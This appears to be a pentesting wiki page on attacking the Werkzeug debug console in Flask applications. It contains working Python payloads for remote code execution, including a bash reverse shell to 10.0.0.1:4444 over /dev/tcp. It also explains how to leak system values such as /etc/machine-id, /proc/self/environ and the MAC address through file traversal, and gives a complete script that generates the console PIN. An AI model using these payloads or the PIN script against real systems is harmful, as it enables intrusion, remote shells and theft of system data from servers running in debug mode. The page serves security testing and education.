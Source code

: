 # Werkzeug

## Theory

Werkzeug is a comprehensive [WSGI](https://wsgi.readthedocs.io/en/latest/) web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries. It is commonly used for Flask web application.

## Practice

### Console RCE

If debug is active you could try to access to `/console` endpoint or to trigger a Werkzeug error and gain RCE.

{% tabs %}
{% tab title="Exploit" %}
```python
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())

# Reverse shell
__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"').read()
```
{% endtab %}
{% endtabs %}

### Console PIN Exploit

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

According to the Werkzeug [PIN generation source code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py), here are the needed variables to generate the PIN code:

<details>

<summary>Needed variables</summary>

Variables needed to exploit the console PIN:&#x20;

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

</details>

<details>

<summary>probably_public_bits</summary>

#### username

This is the user who started this Flask instance. You may find it in `/proc/self/environ`

#### modname

It's flask.app

#### getattr(app, '**name**', getattr (app .\_\_ class\_\_, '**name**'))

is Flask

#### getattr(mod, '\_\_file\_\_', None)

is the absolute path of `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, try `app.pyc` \
You may find this information in the Werkzeug error message.

</details>

<details>

<summary>private_bits</summary>

#### uuid.getnode()

is the MAC address of the current computer, str(uuid.getnode()) is the decimal expression of the mac address.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak `/proc/net/arp` for device ID and then leak MAC address at `/sys/class/net/<device id>/address`.

Convert **from hex address to decimal** representation by running in python e.g.:

```python
# It was 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

#### get\_machine\_id()

concatenate the values in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` after the last slash (/).

To clarify, here is the code used by Werkzeug to generate the machine\_id

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

<details>

<summary>Generate the PIN</summary>

You can use the following code with previous values to generate a valid PIN code

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

If you are on a new version of Werkzeug, try changing the hashing algorithm to **sha1** instead of **md5**.

</details>

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}
